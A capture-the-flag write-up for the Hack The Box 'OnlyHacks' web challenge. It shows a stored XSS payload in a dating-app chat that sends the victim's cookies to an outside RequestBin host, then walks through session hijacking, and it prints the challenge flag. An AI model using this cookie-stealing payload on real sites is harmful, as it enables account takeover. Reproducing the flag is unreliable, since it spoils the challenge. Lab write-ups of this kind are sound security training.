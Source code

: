 # OnlyHacks

- **Category:** Web
- **Points:** 0
- **Difficulty:** Very Easy

[OnlyHacks](https://app.hackthebox.com/challenges/OnlyHacks)

## Description

Dating and matching can be exciting especially during Valentine's, but it’s important to stay vigilant for impostors. Can you help identify possible frauds?

## Solution

This challenge is a simulation of a dating app. The user must create a profile and then match with other profiles. The user can view the profiles of other users and decide if they want to match with them.
Once you have matched with a user, let's use the chat to communicate with them.

> First, identify how works this chat. It seems that the chat is not secure, and the messages are not encrypted.
> Moreover, the chat form seems to render the messages in HTML format.

Let's try to inject some HTML code in the chat form.

```html
<script>alert('XSS')</script>
```

The chat form is vulnerable to XSS. Now, let's try to steal the flag.
For that, we can use [RequestBin](https://requestbin.whapi.cloud/) to force the user to send a request with its cookies to our RequestBin.

```html
<script>document.location='https://requestbin.whapi.cloud/1k1z1z01?cookie='+document.cookie</script>
```

Replace your Session Cookie with the one retrieved from RequestBin ! Refresh and Tada ! You are connected as the user.

> Display her other chats and you will find the flag.

## Flag

`HTB{d0nt_trust_str4ng3r5_bl1ndly}`

